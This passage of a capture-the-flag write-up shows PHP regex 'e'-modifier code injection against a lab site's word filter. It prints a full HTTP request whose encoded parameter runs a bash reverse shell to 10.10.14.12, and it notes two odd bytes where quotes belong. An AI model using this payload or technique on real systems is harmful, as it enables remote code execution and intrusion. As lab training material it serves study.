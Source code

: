 The page also states that a "word filtering" is active to filter out bad words.  When we decode the parameters it's clear that some form of php regex is used to replace those words  

```php
# Dick will get replaced by penis
# And we have control over the modifier!
swearwords[/dick/i]=penis
```

## Exploitation

My final "exploit" looked like this and resulted in a reverse shell  
As stated before I have control over the modifier so I can switch from "i" to "e" which means that my supplied input will be interpreted as code  

```http
POST /dirb_safe_dir_rf9EmcEIx/admin/email.php HTTP/1.1
Host: www.securewebinc.jet
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 512
Origin: http://www.securewebinc.jet
Connection: close
Referer: http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/dashboard.php
Cookie: PHPSESSID=4gufjvu2ksv504vi9gocptl5d6
Upgrade-Insecure-Requests: 1
token: ddac62a28254561001277727cb397baf

swearwords%5B%2Ffuck%2Fi%5D=make+love&swearwords%5B%2Fshit%2Fi%5D=poop&swearwords%5B%2Fass%2Fi%5D=behind&swearwords%5B%2Fdick%2Fe%5D=%73%79%73%74%65%6d%28%18%27%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%32%2f%35%33%20%30%3e%26%31%22%27%19%29%3b&swearwords%5B%2Fwhore%2Fi%5D=escort&swearwords%5B%2Fasshole%2Fi%5D=bad+person&to=test%40local.com&subject=Test&message=%3Cp%3Edick%3C%2Fp%3E%3Cp%3Ebitch%3Cbr%3E%3C%2Fp%3E&_wysihtml5_mode=1
```

## Flag

After getting a shell as www-data the flag can be found in the directory of the dashboard in a file called a_flag_is_here.txt

